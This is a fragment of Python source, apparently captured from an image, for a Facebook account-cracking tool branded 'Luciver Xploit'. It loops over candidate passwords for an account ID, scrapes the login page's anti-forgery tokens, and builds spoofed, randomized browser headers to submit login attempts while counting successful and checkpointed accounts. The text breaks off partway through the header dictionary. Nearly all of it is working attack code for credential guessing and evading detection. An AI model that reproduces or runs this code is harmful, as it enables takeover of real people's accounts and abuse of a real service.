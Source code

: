 


def Ricode_Terus(idf,aku_adalah_luciver_xploit_yang_ganteng,url):
	global loop,ok,cp
	rr = random.randint
	Aing_Orang_Cilacap = random.choice(["id-ID,id;q=0.9","en-US,en;q=0.9","en-GB,en;q=0.9","bd-BD,bd;q=0.9"])
	lucianaxd = random.choice(["Luciver✘","Xploit亗","Ganteng複","Bangetツ","Cilacap✘","RAL亗","Cyberツ","Team複","Indonesiaツ","BangLuci✘","OrangBaik亗","Tersakiti複","DihinaPericode✘"])
	prog.update(des,description=f'            {lucianaxd} {P2}{(loop)}/{len(id)} OK:{H2}{(ok)} {P2}CP:{K2}{(cp)}')
	prog.advance(des)
	ua = random.choice(LuciverXprem)
	ses = requests.Session()
	for pw in aku_adalah_luciver_xploit_yang_ganteng:
		pw = pw.lower()
		try:
			hencet = ses.get(f"https://{url}/login.php?skip_api_login=1&api_key=3446862972255280&kid_directed_site=0&app_id=3446862972255280&signed_next=1&next=https%3A%2F%2F{url}%2Fv16.0%2Fdialog%2Foauth%3Fstate%3Dhttps%253A%252F%252Fsocial.yandex.com%252Fbroker2%252F11417b77ed1748fd8306de7641026ae1%252Fcallback%26redirect_uri%3Dhttps%253A%252F%252Fsocial.yandex.net%252Fbroker%252Fredirect%26response_type%3Dcode%26client_id%3D3446862972255280%26scope%3Demail%252Cuser_birthday%252Cuser_gender%252Cuser_link%26display%3Dtouch%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D213e9588-a6cd-4b2a-bd2b-69fd57b97361%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fsocial.yandex.net%2Fbroker%2Fredirect%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3Dhttps%253A%252F%252Fsocial.yandex.com%252Fbroker2%252F11417b77ed1748fd8306de7641026ae1%252Fcallback%23_%3D_&display=touch&locale=jv_ID&pl_dbl=0&refsrc=deprecated&_rdr")
			date = {'m_ts': re.search('name="m_ts" value="(.*?)"',str(hencet.text)).group(1),
'li': re.search('name="li" value="(.*?)"',str(hencet.text)).group(1),
'try_number': '0',
'unrecognized_tries': '0',
'email': idf,
'prefill_contact_point': '',
'prefill_source': '',
'prefill_type': '',
'first_prefill_source': '',
'first_prefill_type': '',
'had_cp_prefilled': 'false',
'had_password_prefilled': 'false',
'is_smart_lock': 'true',
'bi_xrwh': re.search('name="bi_xrwh" value="(.*?)"',str(hencet.text)).group(1),
'pass': pw,
'jazoest': re.search('name="jazoest" value="(.*?)"',str(hencet.text)).group(1),
'lsd': re.search('name="lsd" value="(.*?)"',str(hencet.text)).group(1),
"__dyn": "",
"__csr": "",
"__a": "",
"__user": "0",
"_fb_noscript": "true"}
			head = {"Host": url,
"content-length": str(rr(2000,2199)),
"sec-ch-ua": f'"Not.A/Brand";v="{str(rr(8,20))}", "Chromium";v="{str(rr(40,114))}", "Google Chrome";v="{str(rr(40,114))}"',
"sec-ch-ua-mobile": "?1",
"user-agent": ua,
"viewport-width": "360",
"content-type": "application/x-www-form-urlencoded",
"x-fb-lsd": re.search('name="lsd" value="(.*?)"',str(hencet.text)).group(1),
"sec-ch-ua-platform-version": f'"{str(rr(5,12))}.0.0"',
"x-asbd-id": "129477",
"x-requested-with": "com.android.chrome",
"sec-ch-ua-full-version-list": f'"Not.A/Brand";v="{str(rr(8,20))}.0.0.0", "Chromium";v="{str(rr(40,114))}.0.{str(rr(2000,5999))}.{str(rr(10,399))}", "Google Chrome";v="{str(rr(40,114))}.0.{str(rr(2000,5999))}.{str(rr(10,399))}"',